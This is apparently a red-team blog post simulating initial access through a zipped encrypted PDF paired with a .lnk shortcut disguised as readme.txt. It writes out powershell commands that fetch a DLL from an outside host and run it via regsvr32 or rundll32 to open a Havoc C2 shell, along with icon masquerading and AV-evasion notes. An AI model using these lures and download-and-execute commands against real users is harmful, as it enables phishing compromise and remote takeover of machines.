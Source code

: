 ```yaml
---
title: "Initial Access Simulation" 
layout: "post"
---
```


In this specific scenario we will try to experiment and simulate a malware payload delivery using the following technique frequently used by Threat Actors (TA): 

- Zip Folder
- .LNK file execution
- DLL Execution 
- Havoc C2C comunications

We will discuss a simple, minimal and baseline approach and we will take into account fews considerations regarding the initial access aspects. 



In normal red team campain it is paramount to find a way to deliver the malicious payload and force the user to interact with our files. 
For this reason, in this particular scenario, we will try to simulate a .zip delivery containing two distinct file. 
The firs file inside the `.zip` will be an encrypted PDF document (sign contract, legal document, CV, just use your immagination), the second one will be a `.lnk` shortcut file masquerade as a text file (`readme.txt`). 
The idea here is the following: the user receive the files (could be via email or via MS Teams) and try to open up the encrypted pdf, which will ask the user to specify a password and then the user will open up the fake notepad file to recover the original PDF's password. 
By doint so the `.lnk` shortcut file in the background will execute the tasks necessary to deliver and execute our malicious DLL.  



## 1) Introduction Initial Access 

Initial Access involves a range of techniques employed by threat actors to establish their initial presence within a target network. 
These methods encompass various entry vectors that serve as a foothold into the network. 
One particularly relevant technique is the employment of targeted spear-phishing campaigns. 
In these campaigns, attackers meticulously craft deceptive emails tailored to deceive recipients, often leading them to unknowingly disclose sensitive credentials or execute malicious attachments. 

This tactic holds significant relevance as successful spear-phishing attempts can grant attackers direct access to a network, bypassing many traditional security measures. 
In addition, threat actors frequently exploit vulnerabilities present in public-facing web servers to penetrate the network's defenses. It's noteworthy that initial access points gained through these techniques could grant ongoing access, such as using compromised accounts and external remote services. 

However, the effectiveness of these access points might diminish due to changing passwords or other security measures. 
Analyzing historical attacks by prominent threat actors reveals that these tactics are recurrently employed to breach networks, underscoring the significance of robust initial access security measures."


 



## 2) Defender Bypass Payload

We are not going into details on how we created this stealth DLL payload in this blogpost. 
Is it obviously possible to used any payload you want, the only assumption is that the paylod itself must be undetected by Defender AV and static signature. 
The DLL itself is pretty simple and perform the classic injection using the VirtualAlloc Windows API. 
However, to bypass static signature, the shellcode is encrypted with AES. 
Inside the DLL we have also included the AES Key to decrypt the shellcode as well as the AES Decryption. 

__Note:__ Since we are saving a payload into the disk we don't need to worry about AMSI at this stage. We are not operating in memory even though this can be considered not OPSEC safe. 



## 3) Weaponize Payload Delivery with LNK 

Firt of all we need to create a shortcut file that will be delivered with the encrypted PDF. Right click on your Desktop, click on create shortcut and you must enter the full path of `cmd.exe`, in this case it will be `C:\Windows\System32\cmd.exe`. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk.PNG">
</p>


After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password to decrypt the PDF). Since we don't want to show the typical `cmd.exe` icon, which might look suspicious, we can then add a specific icon that in this specific case will be notepad. Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor). 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk2.PNG">
</p>

Now we can craft the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path. 

The full command specified inside the shortcut file is the following: 

```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
__Note:__ The powershell download can be also be performed with the usual suspect IEX Download String function. 🚩

Futhermore, the above command is included inside the readme.lnk file which will look like this to the end user. 

Below we can see the files that will be displayed to the user after unziping the `.zip` folder delivered via email or when possible via Microsft Teams. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/Invoice.PNG">
</p>

__Note:__ Obviously we can create a .lnk file with the desired command and subsequently add the typical pdf icon. 🚩

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk3.PNG">
</p>

Upon executing the `readme.txt` file on the attacker machine we can see a web request on the webserver. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/down.JPG">
</p>

Furthermore, as soon as the file is downloaded and executed we can see our reverse shellcode in the Havoc C2C framework. 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/hav1.JPG">
</p>

With some modification on the `.dll` file we can also perform the same activity using the `rundll32` windows binary. 


```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && rundll32 %TMP%\h.dll,helo
```
The command is pretty similar even though in this case we need to specify the export function name declared in our `.dll`



## 4) Conclusion and Limitation

- Email gateway scanner 
- Proxy communications 
- PackMyPayload https://github.com/mgeeky/PackMyPayload


## References 

- https://www.truesec.com/hub/blog/darkgate-loader-delivered-via-teams
